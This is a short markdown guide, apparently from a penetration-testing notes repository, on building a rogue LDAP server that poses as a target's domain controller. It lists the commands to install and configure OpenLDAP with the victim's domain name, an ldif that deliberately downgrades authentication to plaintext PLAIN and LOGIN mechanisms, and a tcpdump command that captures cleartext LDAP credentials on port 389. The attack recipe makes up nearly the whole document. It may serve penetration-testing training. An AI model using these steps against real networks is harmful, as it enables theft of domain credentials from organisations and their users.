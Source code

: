 #  Creating a Rogue LDAP Server

Some of the techniques requires you to create a rogue LDAP server. Below is a short guide on setting up.

## Guide

1. Install OpenLDAP
```bash
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

2. Configure your LDAP server
```bash
sudo dpkg-reconfigure -p low slapd
```
- Following the steps below to set up the slapd settings:
  - Make sure to press <No> when requested if you want to skip server configuration. Choose No.
  - For the DNS domain name, you want to provide our target domain, which is your DC main domain.
  - Use this same name for the Organisation name as well.
  - Provide any Administrator password, just ignore it.
  - Select MDB as the LDAP database to use. Choose MDB.
  - For the last two options, ensure the database is not removed when purged. Choose No.
  - Move old database files before a new one is created. Choose Yes.

3. Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods.
- We need to create a new ldif file and called with the following content:
```bash
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```
4. Now we can use the ldif file to patch our LDAP server using the following:
``` bash
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```
  
5. Verify the LDAP server config
```bash
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```
  
6. Capture LDAP credential
``` bash
sudo tcpdump -SX -i eth0 tcp port 389
```
Note: You may have to change eth0 to whichever interface on your machine
